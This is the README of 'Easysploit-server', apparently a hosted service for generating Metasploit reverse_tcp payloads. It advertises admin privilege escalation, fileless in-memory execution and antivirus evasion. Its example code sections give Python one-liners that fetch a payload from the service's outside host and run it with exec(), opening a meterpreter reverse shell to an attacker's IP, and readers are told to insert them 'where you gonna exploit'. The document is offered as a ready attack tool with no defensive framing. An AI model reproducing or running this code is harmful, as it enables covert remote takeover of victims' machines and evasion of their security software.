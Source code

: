 # Easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.  
Easysploit server is now working on https://easysploit.rocknroll17.com.  
  
## Features  
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion
  
## Installation  
You don't need to run this server.  
It is already working on https://easysploit.rocknroll17.com.  
  
## Usage  
### Available Endpoints  
1. **Standard python Reverse TCP Payload**  
Endpoint: `/python/meterpreter/reverse_tcp`  
2. **Admin Privilege Reverse TCP Payload**  
Endpoint: `/python/meterpreter/reverse_tcp/admin`  
  
### Request Body
Both endpoints require the same JSON payload:  
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```  
  
## Example Code
Insert this code where you gonna exploit.  
1. **Standard python Reverse TCP Payload**  
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```  
2. **Admin Privilege Reverse TCP Payload**  
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```